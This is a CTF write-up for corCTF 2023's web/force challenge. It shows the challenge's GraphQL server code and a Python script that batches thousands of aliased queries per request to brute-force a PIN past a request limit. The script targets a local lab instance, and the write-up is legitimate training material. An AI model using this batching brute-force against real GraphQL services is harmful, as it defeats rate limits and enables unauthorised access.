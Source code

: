 ```yaml
---
title: "2023 corCTF"
description: "Writeup for 2023 corCTF competition."
date: "Aug 1 2023"
---
```


## Background

corCTF 2023 was a CTF event organized by Crusader of Rust team and was held from Sat, 29 July 2023, 12:00 UTC — Mon, 31 July 2023, 12:00 UTC. There are a total of 39 challenges, with catrgories made up of reverse engineering, web, pwn, crypto and blockchain. Being a novice in CTF and cybersecurity in general, I only managed to complete 1 challenge, which is Force under the web category.

## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```Dockerfile
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .
docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![main_page](./img/force_main.png)

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![first_try](./img/force_first_try.png)

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying[^1] where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination[^2]. I then look to the `web.js` for more information of the app.

```javascript
import fastify from "fastify";
import mercurius from "mercurius";
import { randomInt } from "crypto";
import { readFile } from "fs/promises";

const app = fastify({
  logger: true,
});

const index = await readFile("./index.html", "utf-8");
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => (requests = 10), 60000);

await app.register(mercurius, {
  schema: `type Query {
        flag(pin: Int): String
    }`,
  resolvers: {
    Query: {
      flag: (_, { pin }) => {
        if (pin != secret) {
          return "Wrong!";
        }
        return process.env.FLAG || "corctf{test}";
      },
    },
  },
  routes: false,
});

app.get("/", (req, res) => {
  return res.header("Content-Type", "text/html").send(index);
});

app.post("/", async (req, res) => {
  if (requests <= 0) {
    return res.send("no u");
  }
  requests--;
  return res.graphql(req.body);
});

app.listen({ host: "0.0.0.0", port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
   
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
   
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
   
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
       
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag:

> corctf{S T O N K S}

## Fin

Even though I only managed to solve 1 challenge, it is a fun experience and I learned a lot from it. I'm looking forward to learn more about cybersecurity and much looking forward to next year's corCTF. Thank you for reading.

[^1]: https://graphql.org/learn/queries/#aliases
[^2]: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks

